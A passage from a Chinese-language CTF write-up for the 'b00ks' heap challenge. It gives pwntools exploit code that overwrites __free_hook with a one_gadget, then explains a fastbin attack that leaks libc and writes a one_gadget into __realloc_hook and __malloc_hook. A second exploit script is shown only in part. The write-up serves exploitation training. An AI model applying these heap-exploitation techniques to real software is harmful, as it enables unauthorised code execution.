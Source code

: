 ```python
print(hex(u64(x)))
book2_mmap=u64(x)
log.info('book2_mmap:'+hex(book2_mmap))
base=book2_mmap-0x590010
log.info('base:'+hex(base))
#修改book2 chunk 中 description addr 为free hook地址
#并在free hook写入one_gadget
free_hook=0x3c67a8+base
log.info('free_hook:'+hex(free_hook))
edit(1,p64(free_hook)*2)
edit(2,p64(base+0x4527a))
free(2)

p.interactive() 
```

### 思路2: Fastbin Attack 泄露libc写入shell

审计代码可以发现，程序在释放book时，并没有将所有申请的chunk的内容清空。我们可以申请一个unsorted bin ，再释放掉从而leak出main_arena附近一地址从而算出基地址。在创造一个0x70的fast bin，让其fd能被我们控制写。 再控制fake chunk的让有读能力的book name chunk的地址指向free 出unsorted bin所泄露的地址，有写能力的description chunk的地址指向fast bin的fd。

![image-20210410133403130](image-20210410133403130.png)

再修改fast bin的fd指向我们在`__malloc_hook`-0x30+0xd处的falk chunk。

![image-20210410133926118](image-20210410133926118.png)

由于利用这个新伪造的chunk，本地`__malloc_hook`写one_gadget没有打通。所以覆盖`__realloc_hook`及`__malloc_hook`处的数据。利于`__realloc_hook`来调节堆栈。

![image-20210410133852514](image-20210410133852514.png)

于是在`__realloc_hook`处写one_gadget的地址，在`__malloc_hook`处写`__libc_realloc`的地址。

我们通过gdb 命令 `disassemble __libc_realloc`来搜寻我们适合的地址。

![image-20210410134609947](image-20210410134609947.png)

前面几个push的地址我们都可以看情况来选用。

#### exp

```python
from pwn import *

#e=ELF('./spwnlibc-2.23.so')
p=process('./b00ks')#remote('node3.buuoj.cn',29407)
#process('./b00ks')
p.sendline('s'*0x20)
def add(ns,na,ds,da):
	p.sendline('1')
	p.sendlineafter('name size:',str(ns))
	p.sendlineafter('name',na)
	p.sendlineafter('description size',str(ds))
	p.sendlineafter('description',da)
def edit(num,da):
	p.sendline('3')
	p.sendlineafter("edit",str(num))
	p.sendlineafter('description',da)
def echo():
	p.sendline('4')

def free(num):
	p.sendline('2')
```